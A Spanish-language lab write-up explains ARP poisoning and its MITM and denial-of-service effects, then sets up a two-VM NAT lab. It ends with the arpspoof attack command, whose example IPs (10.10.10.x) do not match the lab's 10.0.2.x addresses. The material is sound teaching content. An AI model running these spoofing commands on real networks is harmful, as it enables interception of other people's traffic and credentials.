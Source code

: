 El ARP Poisoning, también conocido como ARP Spoofing, es un tipo de ataque en redes de computadoras que se lleva a cabo en la capa de enlace de datos (capa 2 del modelo OSI). Este ataque explota el protocolo ARP (Address Resolution Protocol), que es utilizado en redes IPv4 para mapear direcciones IP a direcciones MAC de hardware. A continuación, te explico en detalle cómo funciona este ataque y sus implicaciones:

Funcionamiento del Protocolo ARP
- ARP en Redes Normales: Cuando un dispositivo en una red local quiere comunicarse con otro dispositivo, necesita conocer su dirección MAC. Si solo conoce la dirección IP, utiliza ARP para resolver la dirección MAC. Envía una solicitud ARP a todos los dispositivos en la red (broadcast) preguntando "¿Quién tiene esta dirección IP? Envíame tu dirección MAC".
- Respuesta ARP: El dispositivo con la dirección IP solicitada responde con su dirección MAC, y la comunicación puede comenzar.

Mecánica del ARP Poisoning
- Envío de Respuestas ARP Falsificadas: En un ataque de ARP Poisoning, el atacante envía respuestas ARP no solicitadas a la víctima, a la puerta de enlace de la red, o a ambos. Estas respuestas contienen la dirección MAC del atacante en lugar de la dirección MAC real correspondiente a la dirección IP solicitada.
- Modificación de la Tabla ARP: Como resultado, la víctima y/o la puerta de enlace actualizan sus tablas ARP con la información falsa, asociando la dirección IP del dispositivo objetivo (por ejemplo, la puerta de enlace) con la dirección MAC del atacante.
- Intercepción del Tráfico: Con las tablas ARP modificadas, el tráfico que se supone debe ir al dispositivo objetivo es enviado al atacante. Esto permite al atacante interceptar, leer o modificar los datos antes de reenviarlos al destinatario original, si así lo decide.

Objetivos y Consecuencias
- Man-In-The-Middle (MITM): El atacante se coloca entre dos partes que creen estar comunicándose directamente entre sí. Puede espiar o alterar la comunicación.
- Denegación de Servicio (DoS): Si el atacante no reenvía los paquetes interceptados, puede interrumpir la comunicación, resultando en un ataque de DoS.
- Suplantación de Identidad y Ataques a la Privacidad: El atacante puede obtener acceso no autorizado a datos confidenciales, como credenciales de inicio de sesión y otra información personal.

----------------------------------------
Este laboratorio necesita una red nat que compartirán las máquinas virtuales.


Este laboratorio cuenta con dos máquina virtuales:
- Windows 10 con configuración de la red: red nat. IP 10.0.2.15
- Ubuntu 23.10 con configuración de la red: red nat. IP: 10.0.2.4

Comprobamos que la máquina virtual linux vea a la windows:
```
ping 10.0.2.15
PING 10.0.2.15 (10.0.2.15) 56(84) bytes of data.
64 bytes from 10.0.2.15: icmp_seq=1 ttl=128 time=0.942 ms
64 bytes from 10.0.2.15: icmp_seq=2 ttl=128 time=0.509 ms
64 bytes from 10.0.2.15: icmp_seq=3 ttl=128 time=0.995 ms
^C
--- 10.0.2.15 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2043ms
rtt min/avg/max/mdev = 0.509/0.815/0.995/0.217 ms
```


Comprobamos que la máquina virtual windows vea a la Linux:
```
C:\Windows\system32>ping 10.0.2.4
Haciendo ping a 10.0.2.4 con 32 bytes de datos:
Respuesta desde 10.0.2.4: bytes=32 tiempo<1m TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64

Estadísticas de ping para 10.0.2.4:
    Paquetes: enviados = 4, recibidos = 4, perdidos = 0
    (0% perdidos),
Tiempos aproximados de ida y vuelta en milisegundos:
    Mínimo = 0ms, Máximo = 1ms, Media = 0ms
```

En la máquina Windows:
- No hace falta desactivar el antivirus de Windows. Funciona igualmente.
- Abrimor Wireshark  para snifar el tráfico.



En la máquina Linux instalamos dsniff y lanzamos el ataque unos segundos:
```
sudo apt-get install dsniff
sudo apt install nmap
sudo nmap --iflist
[sudo] contraseña para usuario: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 20:29 CET
************************INTERFACES************************
DEV     (SHORT)   IP/MASK       TYPE     UP MTU   MAC
lo      (lo)      127.0.0.1/8   loopback up 65536
lo      (lo)      ::1/128       loopback up 65536
enp0s3  (enp0s3)  10.0.2.4/24   ethernet up 1500  08:00:27:AB:BD:F3
docker0 (docker0) 172.17.0.1/16 ethernet up 1500  02:42:1B:03:99:67

**************************ROUTES**************************
DST/MASK       DEV     METRIC GATEWAY
10.0.2.0/24    enp0s3  100
172.17.0.0/16  docker0 0
169.254.0.0/16 enp0s3  1000
0.0.0.0/0      enp0s3  100    10.0.2.1
::1/128        lo      0
::1/128        lo      256
sudo arpspoof -i [interfazAtancante] -t [ipVíctima] [ipPuertaEnlace]
sudo arpspoof -i enp0s3 -t 10.10.10.5 10.10.10.1
```
![](capturas/arp-spoof-attack.png)
